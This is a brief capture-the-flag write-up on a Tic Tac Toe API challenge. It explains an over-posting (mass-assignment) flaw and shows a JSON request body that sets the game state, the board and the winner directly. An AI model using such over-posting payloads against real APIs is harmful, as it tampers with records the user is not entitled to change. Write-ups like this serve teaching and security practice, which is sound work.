

# Tic Tack Hack

### Challenge
> Win a game without making any moves.

This is yet another Tic Tac Toe API challenge. The instructions show you how to start a game:

    POST /api/Game HTTP/1.1
    Host: ctf-tic-tac-toe.azurewebsites.net
    Authorization: Bearer eyJhbGciOiJIUzI...
    Content-Type: application/json
    Content-Length: 74
    
    {
        "FriendlyName" : "Game 10",
        "PlayerXName" : "your-user-name"
    }

But if you look closely at the swagger docs you will see that the endpoint actually accepts much more than just FriendlyName and PlayerXName:

It looks like this API is vulnerable to a classic *over posting* attack - where you send more information than you need and the system accepts it and persists it to the database.

If you were to post an entire game then you have automatically won without ever even calling the Move endpoint:

    {
        "FriendlyName" : "my first game",
        "PlayerXName": "xfactor",
        "GameState": 2,
        "Board": {
            "Squares": [
                "X",
                "X",
                "X",
                "X",
                "X",
                "X",
                "X",
                "X",
                "X"
            ]
        },
        "Winner": 3
    }